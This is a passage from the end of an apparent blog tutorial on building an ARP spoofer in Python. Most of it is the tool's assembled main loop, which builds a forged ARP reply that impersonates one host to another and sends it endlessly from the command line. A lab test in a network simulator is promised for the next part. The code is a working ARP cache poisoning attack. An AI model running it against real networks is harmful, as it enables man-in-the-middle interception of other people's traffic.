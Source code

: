 
def find_mac_by_ip(ip):
    fill_arp_cache_with(ip)
    mac = read_mac_from_arp_cache(ip)
    return mac
{% endhighlight %}

## Putting all the pieces together

All that's left to do is to read the interface name, ip of our target and ip of the host we want to impersonate from command line arguments and use it to create and send ARP replies:

{% highlight python %}
# ...

import sys

# ...

def main(interface, impersonated_host_ip, poisoned_host_ip):
    poisoned_host_mac = find_mac_by_ip(poisoned_host_ip)
    our_mac = getnode()

    packet = create_arp_packet(sender_ip=impersonated_host_ip,
                               target_ip=poisoned_host_ip,
                               sender_mac=our_mac,
                               target_mac=poisoned_host_mac)
    
    while True:
        send(packet, interface)


def print_help():
    doc = '''
        Usage:
          {} INTERFACE IMPERSONATED_HOST_IP POISONED_HOST_IP
    '''.format(__file__)
    print(inspect.cleandoc(doc))


if __name__ == '__main__':
    try:
        (script_name, interface, impersonated_host_ip, poisoned_host_ip) = sys.argv
    except ValueError:
        print_help() 
        sys.exit(1)

    try:
        main(interface, impersonated_host_ip, poisoned_host_ip)
    except KeyboardInterrupt:
        print('\nDone.')
        sys.exit(0)
{% endhighlight %}

Full script can be found [here](https://github.com/kamil-s-solecki/arp-spoofer/blob/master/arp_spoofer.py).

## What's next?

Ok, that's it for the first part. Next time we are going to build the lab in [GNS3](https://gns3.com/) network simulator and test our script.

Happy spoofing!